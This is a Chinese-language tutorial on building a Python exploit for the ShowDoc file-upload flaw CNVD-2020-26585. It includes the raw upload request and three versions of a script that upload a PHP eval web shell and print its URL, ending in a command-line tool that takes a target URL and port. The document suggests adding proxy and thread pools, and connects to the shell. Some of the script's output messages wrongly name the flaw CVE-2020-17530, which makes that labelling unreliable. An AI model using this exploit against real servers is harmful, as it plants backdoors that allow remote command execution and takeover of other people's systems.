





# 前言

之前的文章基本上都是一些相对来说都是验证类的或者说是一些代码执行类的，相对来说都不是太复杂，而这篇会涉及到文件上传的案例，很多类似于代码执行这些，在编写的时候主要需要注意的就是执行完后，返回来的结果如何展现出来。

还有误报的情况，关于出现误报，多数都是在返回的内容上判断没有做到唯一性，例如：`phpinfo`，可能不单单有漏洞在返回中有这个单词，还有可能正常情况下返回值也有这个单词，那不就出现误报了么？

# 文件上传案例

这里我们拿的是`showdoc 文件上传 （cnvd-2020-26585）`漏洞来做测试，至于漏洞的复现自行去了解，这里不做复现过程。

参考：[showdoc 文件上传 （CNVD-2020-26585）复现 - 代码天地 (codetd.com)](https://www.codetd.com/article/13363142)

## Burp抓包

这里我们看一下`Burp`抓包显示的内容，这里如何将内容导出来，之前也说过了这里也不再赘述。

`Burp中POC`:

```python
POST /index.php?s=/home/page/uploadImg HTTP/1.1
Host: vulfocus.fofa.so:57700 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: multipart/form-data; boundary=--------------------------921378126371623762173617
Content-Length: 265

----------------------------921378126371623762173617
Content-Disposition: form-data; name="editormd-image-file"; filename="test.<>php"
Content-Type: text/plain

<?php echo '123_test';@eval($_POST[cmd])?>
----------------------------921378126371623762173617--
```



## 基础代码实践

这里的代码基础实现，相当于木马已经上传上去了，但是我们需要的是返回木马地址，不然为什么要去做文件上传的EXP呢？同时关于代码我也不做解释，类似headers、data，甚至post请求都是Burp帮你生成的，剩下的代码也不复杂。

```python
import requests

burp0_url = "http://123.58.224.8:25235/index.php?s=/home/page/uploadImg"
burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)",
                 "Accept-Encoding": "gzip, deflate", "Accept": "*/*", "Connection": "close",
                 "Content-Type": "multipart/form-data; boundary=--------------------------921378126371623762173617"}
burp0_data = ("----------------------------921378126371623762173617\r\nContent-Disposition: form-data; "
              "name=\"editormd-image-file\"; filename=\"test.<>php\"\r\nContent-Type: text/plain\r\n\r\n<?php echo "
              "'123_test';@eval($_POST[cmd])?>\r\n----------------------------921378126371623762173617--")
r = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
print(r.text)
if "http:" in r.text and "Public" in r.text:
    print(f"[+]存在CVE-2020-17530远程命令执行漏洞")
else:
    print(f"[-]不存在CVE-2020-17530远程命令执行漏洞")
```


这里也能看出来，返回了一条带有URL地址的返回内容，但是这个地址我们还需要手动修改比较麻烦，那么有没有什么办法解决了？

### 优化代码

这里就是加入了`json()`解析，将内容解析成好理解的方式，但是根据不通的返回内容，可能需要做其他的一些操作，才能够实现，而这里相对来说简单一点。

```python
import requests

burp0_url = "http://123.58.224.8:25235/index.php?s=/home/page/uploadImg"
burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)",
                 "Accept-Encoding": "gzip, deflate", "Accept": "*/*", "Connection": "close",
                 "Content-Type": "multipart/form-data; boundary=--------------------------921378126371623762173617"}
burp0_data = ("----------------------------921378126371623762173617\r\nContent-Disposition: form-data; "
              "name=\"editormd-image-file\"; filename=\"test.<>php\"\r\nContent-Type: text/plain\r\n\r\n<?php echo "
              "'123_test';@eval($_POST[cmd])?>\r\n----------------------------921378126371623762173617--")
r = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
print(r.text)
if "http:" in r.text and "Public" in r.text:
    json = r.json()  ## 解析JSON响应
    file_url = json['url'] ## 提取并格式化URL
    print(file_url)  ##可删除，测试使用
    formatted_url = file_url.replace("\\/", "/") ## 如果需要，将反斜杠替换为斜杠
    print(f"[+]存在CVE-2020-17530远程命令执行漏洞,上传的文件url为:{formatted_url}")
else:
    print(f"[-]不存在CVE-2020-17530远程命令执行漏洞")
```



## 整体代码

这里的整体代码就是添加上相关的一些选项，以及一些输入输出，而这个并非是最好的代码，例如没对用户输入的内容进行二次格式化或者控制输入的内容，或者说添加一些代理池、线程池等等~~

这些就靠自己添加吧。

```python
import argparse
import requests
import sys


def exp(url, port):
    payload = "/index.php?s=/home/page/uploadImg"
    url1 = f"{url}:{port}{payload}"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)",
               "Accept-Encoding": "gzip, deflate", "Accept": "*/*", "Connection": "close",
               "Content-Type": "multipart/form-data; boundary=--------------------------921378126371623762173617"}
    data = ("----------------------------921378126371623762173617\r\nContent-Disposition: form-data; "
            "name=\"editormd-image-file\"; filename=\"test.<>php\"\r\nContent-Type: text/plain\r\n\r\n<?php echo "
            "'123_test';@eval($_POST[cmd])?>\r\n----------------------------921378126371623762173617--")
    try:
        r = requests.post(url1, headers=headers, data=data, verify=False, timeout=5, allow_redirects=False)
        if "http:" in r.text and "Public" in r.text:
            json = r.json()
            file_url = json['url']
            formatted_url = file_url.replace("\\/", "/")
            print(f"[+]{url}存在showdoc文件上传 CNVD-2020-26585 漏洞")
            print(f"木马访问地址:{formatted_url}")
        else:
            print(f"[-]{url}不存在showdoc文件上传 CNVD-2020-26585 漏洞")
    except Exception as e:
        print(f"[-]{url}存在异常，请检查！")
        sys.exit(1)


def main():
    banner = """
 ## ### # # ##      ### ### ### ###     ### ### ### ### ### 
#   # # # # # #       # # #   # # #       # #   #   # # #   
#   # # # # # # ### ### # # ### # # ### ### ### ### ### ### 
#   # # # # # #     #   # # #   # #     #   # #   # # #   # 
 ## # #  #  ##      ### ### ### ###     ### ### ### ### ###
    """
    print(banner)
    print("Vulnerability version: 2.8.3 以下版本")
    parser = argparse.ArgumentParser()
    parser.add_argument("-u", dest="url", required=True, type=str, default=None, help="Vulnerability IP")
    parser.add_argument("-p", dest="port", required=False, type=int, default=80,
                        help="The default vulnerability port is 80")
    args = parser.parse_args()
    exp(args.url, args.port)


if __name__ == '__main__':
    main()

```



### 木马测试

链接参数：



输入相关的链接参数后，就可以使用添加链接了，可以看到是成功链接上来了。

